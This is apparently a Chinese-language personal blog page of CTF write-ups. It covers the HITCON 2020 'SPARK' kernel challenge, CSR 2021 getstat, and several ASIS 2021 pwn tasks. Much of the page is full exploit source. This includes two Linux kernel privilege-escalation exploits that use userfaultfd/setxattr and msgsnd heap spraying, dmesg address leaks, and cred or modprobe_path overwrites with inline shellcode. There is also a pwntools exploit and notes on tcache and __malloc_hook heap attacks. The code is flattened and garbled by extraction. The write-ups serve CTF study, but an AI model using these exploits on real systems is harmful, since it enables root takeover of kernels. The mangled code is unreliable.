

不可视境界线最后变动于：2023年7月24日 上午
SPARK
HITCON CTF 2020
代码里面看到_InterlockedExchangeAdd()函数, 其实是IDA中对lock指令前缀的函数替换.
汇编为lock xadd cs:cur_count, eax
The LOCK prefix can be prepended only to the following instructions and only to those forms of the instructionsXADD , and XCHG.
xadd是Exchange and Add.
还有mutex的结构体…. 大小为32个字节. 包含了啥我就不看了.
__fentry__到底是个啥 | 中文文章 char (*names)[3] pointer to an array of 3 chars.
好吧看不懂, linux/spark.h又是什么东西.
艰难的继续看代码, spark.h应该是没给的…
**fget()**函数的功能是通过文件描述符查找并返回file结构体
ioctl功能:
Link (0x4008d900): takes two node descriptors A and B, and a edge weight, and creates the edges A->B and B->A;
Info (0x8018d901): provides information about the node;
Finalize (0xd902): finalizes the graph rooted in the node, preparing it for queries;
Query (0xc010d903): takes two node descriptors and calculates the total weight of the shortest path between them.
在release中: 如果refcount==1(正常情况), 释放traversal中nodes(如果有), 释放edge链表节点, 释放node.
其中的一些细节:
open时每个节点的refcount默认为1, 当finalize的时候只有root节点进入traversal()函数时(第一次进入)不增加refcount, 这就意味着除了root, 其他的节点的refcount都会变成2. 而当release root的时候只有root.refcount小于2, 于是只有root的edge+traversal+node本身都被kfree(). 看似正常, 实际上?
Info中有一个node->traversal->size的访问链, 而size在traversal中offset为0的位置. 意味着如果能够控制traversal字段那就可以实现任意读. 如何控制traversal?
finalize中调用函数traversal进行DFS, 对node的refcount进行+1, 然而在link和query中没有refcount的判断和使用, 而且在release中如果大于等于二则直接退出, 不会调用kfree回收空间. 能否修改refcount?
link后相邻节点保存在edge中, 然而当另一端的节点free/release后, edge中的node就构成了一个dangling ptr. 可以用来UAF. 如何控制freed chunk?(uffd+setxattr)
query中malloc了一个dis_arr, 使用node及其children的traversal_idx来索引. 能否越界?(看到个数组都要想能不能越界…)
具体为uffd+setxattr控制free后的chunk, 再伪造一个(finalize==1 && traversal_idx>16)的node, 制造出一个OOB(还真能越界). 这个OOB能够修改什么东西?
一般的内核题目都是提权, 直接变成root用户就可以读取/flag文件, 方法大致有任意写原语或者commit+prepare_cred.
可能的思路整理:
还原ko文件类型信息. 看看demo.c中的示例便于理解.
还原成功, 发现可能是kmalloc和kfree为主的内核堆利用. 先制造出一个任意读.
getinfo中发现可能的任意读(只要控制了traversal), 这样只要在fd存在的时候node结构体同时也被我们控制就可以做到; 发现mutex的使用, 其中的owner成员可以直通cred; 发现UAF; 发现refcount的问题.
发现traversal_idx是属于node的属性, 而不是某次traversal的. 当query的时候还用到了node的children, 也就是默认了所有的child都属于同一次traversal.
综上所述, 结合uffd+setxattr 的方法, 可以在link完一个网再release一个fd之后, 立刻使用这种方法来修改node的内容. 这算是一个基础步骤. 如何继续利用?
把node->traversal_idx修改超过dis_arr的边界, 在query的时候越界修改tmp_node的refcount, 这样在release root之后只有tmp_node+root的会被释放, 而tmp_node的fd反而不会被影响. 只要在这之后马上malloc就可以实现任意读 了.
还有个小问题是如何让dis_arr放到node的前面? exp给出了方法: 前后malloc一些node, 中间两百个node中每隔几个释放一个node, 而dis_arr的大小由traversal时遍历到的node数量决定, 设置链接的node数量为16或17(为什么呢?想想吧)时就会刚好占据了原先node的间隙, 满足了越界的位置需求.
然后读啥呢 ?
可以读取node.lock.owner进而定位到cred, 而因为get_info的v3->size时候mutex_lock(a1->state_lock);已经锁上, 所以可以直接读取.
下一个问题在于node结构体在哪里? 所以要在读取owner之前扫描内存寻找我们设置的特殊值, 有了个任意读的能力确实也可以做到. 扫哪里呢 ?
主要问题就在于现在一个内核地址都没有, 特别是用来kmalloc的那一块区域 . 但是! dmesg是可用的, 可以利用OOB制造一个crash, 然后读取寄存器信息进而获取相应地址. 这可以通过libc库实现, 具体见源码中的第一阶段 .
到现在一二阶段和三阶段初始都已完成. 接下来的任务是如何制造任意写将cred中uid改成0(root)?
想到OOB, 理论上可以覆盖一个地址为与首个子节点的连接权值, 但要覆盖cred.uid的话还要知道dis_arr的地址. 又想到一阶段malloc了一个dis_arr且由于crash并没有释放, 如果此时通过release(fd)释放traversal再马上query, 既知道了地址(一阶段时)又得到了一个可用的dis_arr.
接下来就是构造一下所需的结构. 需要额外的一个root加上一些其他节点, 加上fd构成一张网, 把和fd的连接权值赋为0(并且is_finalized!=1)作为要写入的内容. 至于释放和造网两者的顺序想来是没有区别的.
又一个细节是所用到的root和其他节点都是在第一阶段之前分配的. 或许是为了防止混乱.
最后就是修改traversal_idx, 进行一个root的query, 然后就完成了cred.uid的覆盖. 最后的最后直接print /flag.
这是36小时能做完的题目吗??
exp 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 351 352 353 354 355 356 357 358 359 360 361 362 363 364 365 366 367 368 369 370 371 372 373 374 375 376 377 378 379 380 381 382 383 384 385 386 387 388 389 390 391 392 393 394 395 396 397 398 399 400 401 402 403 404 405 406 407 408 409 410 411 412 413 414 415 416 417 418 419 420 421 422 423 424 425 426 427 428 429 430 431 432 433 434 435 436 437 438 439 440 441 442 443 444 445 446 447 448 449 450 451 452 453 454 455 456 457 458 459 460 461 462 463 464 465 466 467 468 469 470 471 472 473 474 475 476 477 478 479 480 481 482 483 484 485 486 487 488 489 490 491 492 493 494 495 496 497 498 499 500 501 502 503 504 505 506 507 508 509 510 511 512 513 514 515 516 517 518 519 520 521 522 523 #define _GNU_SOURCE #include <stdio.h> #include <stdint.h> #include <assert.h> #include <unistd.h> #include <fcntl.h> #include <sys/ioctl.h> #include <pthread.h> #include <sys/mman.h> #include <syscall.h> #include <linux/userfaultfd.h> #include <poll.h> #include <sys/xattr.h> #include <errno.h> #include <signal.h> #include <sys/klog.h> #include <stdlib.h> #include <string.h> #include <stdbool.h> #include <semaphore.h> #define DEV_PATH "/dev/node" #define SPARK_FINALIZE 0xd902 #define SPARK_LINK 0x4008d900 #define SPARK_QUERY 0xc010d903 #define SPARK_INFO 0x8018D901 struct spark_ioctl_query { int fd1;int fd2;long long distance;struct spark_info { unsigned long num_children;unsigned long traversal_idx;unsigned long traversal_size;static unsigned g_create_next_id;static int create () int fd = open(DEV_PATH, O_RDONLY);-1 );return fd;static void llink (int a, int b, unsigned int weight) unsigned long long )weight << 32 )) == 0 );static long long query (int a, int b) struct spark_ioctl_query qry =0 );return qry.distance;static void finalize (int a) 0 );static void get_info (int a, struct spark_info *info) 0 );static void release (int a) 0 );struct fault_arg { sem_t fault_sem;sem_t unblock_sem;void *addr;static void *fault_thread (void *arg) struct fault_arg *param =unsigned char *page = mmap(NULL , 0x1000 , PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1 , 0 );0 ] = 0xff ; int uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);-1 );struct uffdio_api uffdio_api ;0 ;0 );struct uffdio_register uffdio_register ;unsigned long )param->addr;0x1000 ;0 );0 );struct pollfd pollfd ;int nready;1 , -1 );-1 );struct uffd_msg msg ;sizeof (msg)) == sizeof (msg));0 );0 );struct uffdio_copy uffdio_copy ;unsigned long )page;unsigned long )msg.arg.pagefault.address & ~0xfff UL;0x1000 ;0 ;0 ;0 );0x1000 );return NULL ;struct setxattr_arg { const void *buf;size_t size;static void *setxattr_thread (void *arg) struct setxattr_arg *param ="." , "nonexistent" , param->buf, param->size, XATTR_REPLACE) == -1 );return NULL ;struct reclaim_ctx { struct fault_arg fault_arg ;struct setxattr_arg setxattr_arg ;pthread_t setxattr_handle;static void reclaim_alloc_raw (struct reclaim_ctx *ctx, char *buf) char *mem = mmap(NULL , 0x2000 , PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1 , 0 );0x1000 ;0 , 0 ) == 0 );0 , 0 ) == 0 );pthread_t handle;NULL , fault_thread, &ctx->fault_arg) == 0 );0 );char *node = mem + 0x1000 - 0x7e ;for (int i = 0 ; i < 0x7e ; i++)0x7f ; NULL , setxattr_thread, &ctx->setxattr_arg) == 0 );0 );static void reclaim_alloc (struct reclaim_ctx *ctx, unsigned int is_finalized, unsigned long num_children, unsigned long traversal_idx, unsigned long traversal) char buf[0x80 ];memset (buf, 0 , sizeof (buf));unsigned int *)(buf + 0x8 ) = 1 ; unsigned int *)(buf + 0x30 ) = is_finalized; unsigned long *)(buf + 0x58 ) = num_children; unsigned long *)(buf + 0x70 ) = traversal_idx; unsigned long *)(buf + 0x78 ) = traversal; static void reclaim_free (struct reclaim_ctx *ctx) 0 );NULL ) == 0 );static void stage1_leak_dmesg (unsigned long *dist_addrp, unsigned long *edges_addrp) int i, sz;char *buf;10 , NULL , 0 );-1 );malloc (sz);3 , buf, sz) != -1 );unsigned long dist_addr = 0 , edges_addr = 0 ;for (i = 0 ; i < sz && (!dist_addr || !edges_addr); i++)if (!dist_addr && !strncmp (buf + i, "RAX: " , 5 ))if (sscanf (buf + i + 5 , "%lx" , &dist_addr) != 1 )0 ;if (!edges_addr && !strncmp (buf + i, "R09: " , 5 ))if (sscanf (buf + i + 5 , "%lx" , &edges_addr) != 1 )0 ;free (buf);#define S1_DIST_NUM_NODES 12 static void stage1 (unsigned long *dist_addrp, unsigned long *node_addrp, int *node_fdp) fprintf (stderr , "[S1] Creating graph\n" );int fds[S1_DIST_NUM_NODES];for (int i = 0 ; i < S1_DIST_NUM_NODES; i++)for (int i = 1 ; i < S1_DIST_NUM_NODES; i++)0 ], fds[i], 1 );fprintf (stderr , "[S1] Freeing node\n" );1 ]);pid_t pid = fork();-1 );if (pid == 0 )fprintf (stderr , "[S1] Reclaiming node\n" );struct reclaim_ctx ctx ;1 , 0 , 0x4141000000000000 UL, 0 );fprintf (stderr , "[S1] Finalizing root\n" );0 ]);fprintf (stderr , "[S1] Performing crash query by UAF\n" );0 ], fds[1 ]);exit (1 );250 * 1000 );fprintf (stderr , "[S1] Leaking from dmesg\n" );unsigned long dist_addr, edges_addr;unsigned long node_addr = edges_addr - 0x60 ;fprintf (stderr , "[S1] Dist @ 0x%lx\n" , dist_addr);fprintf (stderr , "[S1] Node @ 0x%lx\n" , node_addr);0 ];#undef STAGE1_NUM_NODES static void stage2_spray (int *fd, int before, int n, int skip, int after) for (int i = 0 ; i < before; i++)for (int i = 0 ; i < n; i++)for (int i = 0 ; i < n; i += skip)-1 ;for (int i = 0 ; i < after; i++)static void stage2 (struct reclaim_ctx *victim_ctx, int *victim_fdp) #define STAGE2_NUM_NODES 17 fprintf (stderr , "[S2] Creating graph\n" );int fds[STAGE2_NUM_NODES];for (int i = 0 ; i < STAGE2_NUM_NODES; i++)for (int i = 1 ; i < STAGE2_NUM_NODES; i++)0 ], fds[i], 1 ); fprintf (stderr , "[S2] Freeing node\n" );1 ]);fprintf (stderr , "[S2] Reclaiming node\n" );1 , 0 , (0x80 + 0x8 ) / 8 , 0 ); fprintf (stderr , "[S2] Finalizing root\n" );0 ]);fprintf (stderr , "[S2] Creating predecessor\n" );int spray_incref_fd = create();#define STAGE2_SPRAY_NUM 200 fprintf (stderr , "[S2] Spraying nodes\n" );int spray_fd[STAGE2_SPRAY_NUM];30 , STAGE2_SPRAY_NUM, 4 , 30 );fprintf (stderr , "[S2] Incrementing sprayed refcounts\n" );for (int i = 0 ; i < STAGE2_SPRAY_NUM; i++)if (spray_fd[i] != -1 )0 );fprintf (stderr , "[S2] Corrupting refcount\n" );0 ], fds[1 ]);fprintf (stderr , "[S2] Freeing victim node\n" );fprintf (stderr , "[S2] Reclaiming victim node\n" );unsigned char buf[0x80 ];sizeof (buf) - 1 ] = 0xff ;sizeof (buf) - 2 ] = 0xff ;"." , "nonexistent" , buf, sizeof (buf), XATTR_REPLACE) == -1 );0 , 1337 , 0 , 0 );fprintf (stderr , "[S2] Searching for victim node(fd)\n" );int victim_fd = -1 ;for (int i = 0 ; i < STAGE2_SPRAY_NUM; i++)if (spray_fd[i] != -1 )struct spark_info info =0 ,if (info.num_children == 1337 )break ;-1 );fprintf (stderr , "[S2] Victim fd = %d\n" , victim_fd);#undef STAGE2_SPRAY_NUM #undef STAGE2_NUM_NODES #define STAGE3_READ_NUM_CHILDREN 0x4142133703030303 static unsigned long stage3_read (struct reclaim_ctx *ctx, int fd, unsigned long addr) 1 , STAGE3_READ_NUM_CHILDREN, 0 , addr);struct spark_info info ;return info.traversal_size;static void stage3 (struct reclaim_ctx *ctx, int fd, int *scratch_fds, unsigned long s1_dist_addr, unsigned long s1_node_addr) char buf[0x80 ];fprintf (stderr , "[S3] Finding victim node\n" );unsigned long victim_addr = 0 ;for (int i = 6000 ; i < 10000 ; i++)unsigned long addr = s1_node_addr + i * 0x80 ;unsigned long value = stage3_read(ctx, fd, addr + 0x58 );if (value == STAGE3_READ_NUM_CHILDREN)break ;fprintf (stderr , "[S3] Victim @ 0x%lx\n" , victim_addr);fprintf (stderr , "[S3] Findings creds\n" );unsigned long current = stage3_read(ctx, fd, victim_addr + 0x10 ); fprintf (stderr , "[S3] current = 0x%lx\n" , current);unsigned long cred_addr = stage3_read(ctx, fd, current + 0xa90 );fprintf (stderr , "[S3] cred @ 0x%lx\n" , cred_addr);fprintf (stderr , "[S3] Crafting linkable node\n" );memset (buf, 0 , sizeof (buf));unsigned long *)(buf + 0x0 ) = 100000 ; unsigned int *)(buf + 0x8 ) = 1 ; unsigned int *)(buf + 0x30 ) = 0 ; unsigned long *)(buf + 0x60 ) = victim_addr + 0x60 ; unsigned long *)(buf + 0x68 ) = victim_addr + 0x68 ; fprintf (stderr , "[S3] Building graph\n" );int graph_fds[S1_DIST_NUM_NODES];for (int i = 0 ; i < S1_DIST_NUM_NODES - 1 ; i++)for (int i = 1 ; i < S1_DIST_NUM_NODES - 1 ; i++)0 ], graph_fds[i], 0 );0 ], fd, 0 ); 0 ]);fprintf (stderr , "[S3] Freeing stage1 dist array\n" );memset (buf, 0 , sizeof (buf));unsigned int *)(buf + 0x8 ) = 1 ; unsigned int *)(buf + 0x30 ) = 1 ; unsigned long *)(buf + 0x38 + 0x0 ) = 0 ; unsigned long *)(buf + 0x38 + 0x10 ) = s1_dist_addr; unsigned long *)(buf + 0x60 ) = victim_addr + 0x60 ; unsigned long *)(buf + 0x78 ) = victim_addr + 0x38 ; fprintf (stderr , "[S3] Overwriting cred\n" );unsigned long write_addr = cred_addr + 8 * 3 ;unsigned long idx = (write_addr - s1_dist_addr) / 8 ;1 , 0 , idx, 0 );0 ], graph_fds[1 ]); static void print_flag () int fd = open("/flag" , O_RDONLY);-1 );char buf[100 ];memset (buf, 0 , sizeof (buf));sizeof (buf) - 1 ) != -1 );fprintf (stderr , "!!! FLAG: %s\n" , buf);int main (void ) int scratch_fds[12 ];for (int i = 0 ; i < 12 ; i++)unsigned long s1_dist_addr, s1_node_addr;int s1_node_fd;struct reclaim_ctx victim_ctx ;int victim_fd;F4 print_flag () ;
来自perfectblue的exp: mutex的结构:
struct mutex {uint64_t owner;uint64_t wait_lock;void * prev;void * next;
改进细节:
第一次crash可以使用refcount_warn_saturate. 这样只要令refcount等于0, 就会触发finalize中的警告, 从而导致crash的产生, 不过exp中简单的使用了sleep等待线程, 以及手动输入dmesg信息. 上面一个战队的exp中解析内核日志的代码可以拿来重复利用, 免得在调试的时候浪费时间.
好了, 看不懂那个leak出来的是个啥, 什么是kmalloc_32/128???也没个wp解释一下.
exp: 略 来自balsn战队: 仅仅两百多行, 这么简洁.
crash用到了refcount_warn_saturate. 原因是finalize之前release会使refcount变0.
用到了msgsnd, 也就是kmalloc有最大和最小长度限制, 而且有一个0x30(48)字节的头部.
msgsnd只能控制后0x50的区域. 也就是最后四行
struct node_t { uint64_t id;uint64_t refcount;char state_lock[32 ];uint64_t is_finalized;char nb_lock[32 ];uint64_t num_children;struct list_head_t edges ;uint64_t traversal_idx;struct node_list_t *traversal ;
不知道怎么得出的rbx中存储kernel_heap, 不过可能是从崩溃信息中对比和真实heap最接近的一个寄存器地址.
用了一个很巧妙的方法来获取dis_arr的地址, 在用户区建立一个很大的缓冲区, 猜测在已有的heap地址附近, 让idx偏移越界溢出从内核地址绕回到缓冲区中, 检查哪个地址上的数据被修改就可推算真实的dis_arr. 再根据dis_arr来算出和modprobe的地址. 进而修改到shellcode函数中.
遇到的问题:
读取内核错误信息莫名出错, 换成了klogctl才成功. 修改用参数来crash的神奇操作. 修改kernel_ret为query的返回地址在栈上的存储位置.
modprobe:
重点在于造一个头部未知的程序. 执行后内核自会使用/tmp/y处理, 然而它只修改了/flag的权限就退出了. 正好也是我们的目的.
# !/bin/sh
exp: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 #include <stdio.h> #include <stdlib.h> #include <fcntl.h> #include <stdint.h> #include <syscall.h> #include <string.h> #include <pthread.h> #include <sys/mman.h> #include <signal.h> #include <assert.h> #include <stdint.h> #define SPARK_LINK 0x4008D900 #define SPARK_GET_INFO 0x8018D901 #define SPARK_FINALIZE 0xD902 #define SPARK_QUERY 0xC010D903 #define PAUSE scanf("%*c" ); struct spark_ioctl_query { int fd1;int fd2;size_t distance;struct Link_Header { struct Link_Header *fd , *bk ;struct Node { size_t id;size_t refcount;size_t state_lock[4 ];size_t finalized;size_t nb_lock[4 ];size_t num_edges;struct Link_Header link_header ;size_t index;size_t tra;struct Edge { struct Link_Header link_header ;struct Node *dst_node ;size_t weight;static int fd[100 ];static void link (int a, int b, unsigned int weight) unsigned long long )weight << 32 )) == 0 );static void query (int i, int a, int b) struct spark_ioctl_query qry =int ret = ioctl(fd[i], SPARK_QUERY, &qry);void get_info (int a) size_t buf[3 ];memset (buf, 0xcc , sizeof (buf));0 );printf ("[get info %d] " , a);for (int i = 0 ; i < 3 ; ++i)printf ("%p " , buf[i]);puts ("" );void spark_open (int i) "/dev/node" , O_RDWR);0 );void spark_close (int i) void spark_finalize (int i) #include <sys/msg.h> #include <sys/ipc.h> struct MsgBuf { long mtype;char mtext[0x10000 ]; int msg_open () int qid;if ((qid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1 )"msgget" );exit (1 );return qid;void msg_send (int qid, char *data, size_t size) 1 ;memcpy (msgbuf.mtext, &data[0x30 ], size - 0x30 );if (msgsnd(qid, &msgbuf, size - 0x30 , 0 ) == -1 )"msgsnd" );exit (1 );void msg_free (int qid, size_t size) 1 ;if (msgrcv(qid, &msgbuf, size - 0x30 , 1 , 0 ) == -1 )"msgsnd" );exit (1 );void arb_write (int qid, size_t off) struct Node data =0x80 );0x80 );20 , 20 , 22 );void crash () puts ("[+] Crashing..." );0 );1 );0 , 1 , 0 );1 );0 );size_t kernel_stack, kernel_heap;void leak () int pid = fork();if (pid == 0 )exit (1 );0.5 );printf ("[+] get info from dmesg\n" );int i, sz;char *buf;10 , NULL , 0 );-1 );malloc (sz);3 , buf, sz) != -1 );for (i = 0 ; i < sz && (!kernel_stack || !kernel_heap); i++)if (!kernel_stack && !strncmp (buf + i, "RSP: 0018:" , 5 ))if (sscanf (buf + i + 10 , "%lx" , &kernel_stack) != 1 )0 ;if (!kernel_heap && !strncmp (buf + i, "RBX: " , 5 ))if (sscanf (buf + i + 5 , "%lx" , &kernel_heap) != 1 )0 ;free (buf);printf ("[+] Leak kernel stack addr: %p\n" , kernel_stack);printf ("[+] Leak kernel heap addr: %p\n" , kernel_heap);void shellcode () #define target_area_size 0x1000000 size_t cushion[target_area_size];int main (int argc, char **argv) struct Node node =0xffffffffffff ,0 ,0 },1 ,0 },1 ,0x1111 ,0x2222 ,0x6666 ,0 ,size_t *fake_node = &node;for (int i = 0 ; i < 0x10 ; i++)for (int i = 1 ; i < 0x10 ; ++i)0 , 0x10 - i, fake_node[0x10 - i]);0 );20 );21 );22 );20 , 22 , 0 );20 , 21 , shellcode + 4 );21 ); 0 , 0 , 1 ); 20 );int qid = msg_open();0x80 );size_t dis_heap_addr = kernel_heap;1 );2 ;printf ("[+] init heap address of distanse array: %p\n" , dis_heap_addr);printf ("[+] cushion addr: %p\n" , cushion);puts ("[+] Searching ..." );for (int i = 0 ; i < target_area_size; ++i)0x7ffffffffffffff ;size_t addr = ((size_t )cushion - dis_heap_addr);fprintf (stderr , "[+] travsersal addr: %p\n" , addr);8 );for (int i = 0 ; i < target_area_size; ++i)if (cushion[i] != 0x7ffffffffffffff )printf ("[+] Found at idx:%p content:%p addr:%p\n" , i, cushion[i], &cushion[i]);8 ;printf ("[+] dis_heap_addr: %p\n" , dis_heap_addr);break ;size_t kernel_ret_addr = kernel_stack + 0xa0 ;8 );return 0 ;void shellcode () "mov rdi, [rsp+0x10];" "add rdi, 0x11b2097;" "mov rsi, 0x792f706d742f;" "mov [rdi], rsi;" "ud2;" ::
CSR 2021 getstat
CSR 2021
这个比赛的pwn题好少, 就做个样子. 反而是cry(???)和ethereum较多. 而rev这种还有一题是unity背景, 这个也是不会的…..
不过看了别人的wp还是挺有趣的.
比较简单, 直接提供shell()函数, 而且PIE. 有canary, 但是没有方法可以leak. 于是就得绕过. 覆盖返回地址.
主要的问题是无符号数输入加上这段:
.text:0000000000401109 lea rax, [rdx*8]
如果rdx是负数(一致性), 那么rsp减去负数就会增加, 导致栈收缩 .
直接把rsp收缩到返回地址附近, 此时再覆盖地址即可.
唯一一个新问题是在python中把整数pack成浮点数. 新的方法如下:
def iToF (i ):'q' , i)return struct.unpack('d' , b)[0 ]
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 Functions to convert between Python values and C structs.char indicates byte order, size and alignment:size & alignment (default ) =: native order, std . size & alignmentstd . size & alignmentstd . size & alignmentand must match exactly;pad byte (no data) ; c:char ; b:signed byte; B:unsigned byte;_Bool (requires C99; if not available, char is used instead)short ; H:unsigned short ; i:int ; I:unsigned int ;long ; L:unsigned long ; f:float ; d:double ; e:half-float .Special cases (preceding decimal count indicates length) : s:string (array of char ) ; p: pascal string (with count byte) . Special cases (only available in native format) : n:ssize_t ; N:size_t ;Special case (not in native mode unless 'long long' in platform C) : q:long long ; Q:unsigned long long
exp:
from pwn import *import structdef iToF (i ):'q' , i)return struct.unpack('d' , b)[0 ]0x401360 './getstat' )b':' , b'-10' )b':' , b'0' )b':' , bytes (str (iToF(addr)), 'utf-8' ))b':' , b'a' )b'cat /flag' )print (r.clean())
SSE instructions:
CSRunner 图一乐.
ASIS CTF 2021 Justpwnit no canary PIE.
输入一个负数, 然后覆盖rbp为堆指针, 最终stack pivot到heap上, 最后执行exec("/bin/sh\x00", NULL, NULL)
还在纠结system/read&write/sendfile的时候发现还可以用mov qword ptr [rax], rsi ; ret来把/bin/sh写入bss段….
Abbr
同上, 分数71, 应该是难一点点
strncasecmp: compare two strings ignoring case.
注意下stack pivot还可用xchg指令…. 可以刚好找到xchg esp, eax. 又因为PIE已关, 所以4字节能够装下bss和heap段的地址.
不过看到另一个exp里确实绕了一大圈使用了printf的任意读能力leak出地址. 有点复杂了.
strvec
github src , 114 points
找漏洞的过程完全就是一个人脑fuzzing…
保护全开. 大体思路仍来自别人的wp….
Vulnerability 好了, 是下面代码的一个整数溢出, 可以做到一个很大的vec->size以及很小的malloc(size)
vector *vector_new (int nmemb) if (nmemb <= 0 )return NULL ;int size = sizeof (vector ) + sizeof (void *) * nmemb; vector *vec = (vector *)malloc (size);if (!vec)return NULL ;memset (vec, 0 , size);return vec;
这样的话get和set两个函数在一定范围内都没有了限制, 不过只能get heap段之后的地址区域. 好像只有heap了…
Leak heap address 到现在get了一个arbitrary read. 可以leak一下堆地址, 方法是通过get已释放的chunk的tcache链表指针.
然后呢?不知道了, 卡了半天, 没想到经验是如此的不足, 知道下一步是leak libc还是想不出来怎么做.
好吧现在想出来了, 就是靠伪造一个chunk然后再释放加入unsortedbin中就可以读取fd指针, 从而获得libc_base.
Arbitrary write 方法是释放tcache struct, 放到unsorted bin中, 方法是先填满0x290大小的tcache链表, 使得再次free tcache struct的时候可以进入unsorted bin, 进而让fd和bk指针覆盖0x30的count变成一个很大的数值, 使得可以在tcache链上malloc任意数量的伪造的tcache fd指针, 最终分配到__malloc_hook, 实现修改下一次malloc时的流程控制.
卡了一会儿的是差点忘了释放0x420的chunk的时候会尝试前后合并, 而0x421会阻止后向合并, 此时必须设置好nextchunk的nextsize_inuse位, 以阻止前向合并.
Pop a shell 可以使用ROP的方式, 不过有canary的限制, 在此之前还要知道stack和canary的值.
更简单的方法是使用one_gadget一一检查有无满足对应条件的gadget, 这样只要覆盖malloc_hook到对应gadget地址即可.
